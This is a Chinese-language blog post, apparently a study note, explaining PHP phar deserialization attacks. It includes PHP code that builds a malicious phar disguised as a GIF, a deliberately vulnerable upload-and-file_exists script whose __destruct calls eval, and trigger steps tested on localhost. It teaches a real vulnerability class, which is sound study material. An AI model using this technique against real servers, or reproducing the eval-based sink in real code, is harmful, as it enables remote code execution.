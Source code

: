 # 开头

4月末开始搭建的博客，一时兴起，结果就将近三个月没管了，一直在玩，所以现在开始立个flag，充分利用起来这个blog，记录一下自己的学习过程。

## 原理

该方法利用phar文件会序列化储存用户自定义的 **meta-data**，在文件函数(file_exists() , file_get_contents().....)参数可控的情况下，配合phar://伪协议，不依赖unserialize()函数进行反序列化操作。

### phar文件结构

#### a stub

这个可以理解为是phar文件的一个标志，格式为 `xxx<?php xxx;__HALT_COMPILER();?>` 前面的内容不限制，但是必须以 `__HALT_COMPILER();?>` 来结尾，否则phar拓展无法识别这个文件是phar文件。

#### a container describing the contents

phar本质上就是压缩文件，在这个部分，描述了被压缩文件的权限，属性等信息。其中这里有一个用户自定义的 **meta-data** ，这是攻击的核心地方。

![](4.png)



#### file contents

需要被压缩的文件

#### signature

签名，放在末尾

## Demo

根究要求我们要创建一个phar文件，才行实现漏洞。注意：要在**php.ini**文件里，找到**phar.readonly**，将其改为**off** ,特别强调的是，前面的分号要去掉(winodws下)。如果是linux环境下，需要在 /etc/php/7.0/apache2/php.ini 和/etc/php/7.0/cli/php.ini 这两个文件都需要修改 phar.readonly 否则不能生成phar文件(被这个坑了半天。。。)

**sub.php**

```php
<?php
    class Test{
   
    }//创建一个类
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();//自定义的meta-data
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("phpinfo.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering();    //签名自动计算
?>
```

访问这个文件，会在根目录下生成一个test.phar文件

![](5.png)

打开这个文件，可以到Test类被序列化存储

![](1.png)

**sub_phar.php**

```php
<?php
class Test{
    function __destruct()
    {
        echo 'Test';  
    }//析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。这里用于展示Test对象的所有被删除，执行了析构函数，反序列化后会出现析构函数执行的结果。
}
$filename = 'phar://test.phar/phpinfo.txt';
file_exists($filename);

?>
```

![](6.png)

目前受影响的函数如下

![](2.png)

###将phar文件伪装成其他文件

因为stub对前面的内容不做限制，所以可以将`xxx<?php xxx;__HALT_COMPILER();?>`  改为`'Gif9a'.'<?php __HALT_COMPILER();?>'`  绕过某些WAF的检测。

![](3.png)

## 漏洞验证

**upload_file.html**

```html
<head>
<title>Phar_test</title>
<body>
    <form action="http://localhost/phar/upload.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <input type="submit" name="submit" />
    </form>
</body>
</head>
```

**upload.php**

```php
<?php
//验证文件类型和文件名
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];
//判断文件是否存在
    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
    else
      {
      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload_file/" .$_FILES["file"]["name"]);
      echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
      }
    }
else
  {
  echo "Invalid file,you can only upload gif";//文件类型不符合，跳转这个分支。
  }
```

**file_un.php**

```php
<?php
$filename=$_GET['filename'];
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
file_exists($filename);
?>
```

首先我们根据file_un.php写一个exp脚本，生成phar文件。

**evil.php**

```php
<?php
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub('Gif9a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString('phpinfo.txt','test');
$test = new Test();
$test->output='phpinfo();';
$phar->setMetadata($test);
$phar->stopBuffering();
?>
```

### 触发机制

首先，访问evil.php在本地生成一个phar文件：**phar.phar** 接着将文件名改为phar.gif。来到upload_file.html页面，上传phar.gif文件。

![](7.png)

可以看到上传成功，来到file_un.php页面，用phar://协议，进行反序列化：

![](8.png)

可以看到，成功执行。

## 利用条件

1. phar文件能够上传服务器端
2. 要有能利用的魔术方法作为”中间人“
3. 文件操作函数的参数可控，**phar，：，/**等字符没被过滤

## END

花了几个小时，学习了这个漏洞，收获很多，对于自己的知识也得到了提升。

参考链接：https://paper.seebug.org/680/#0x01

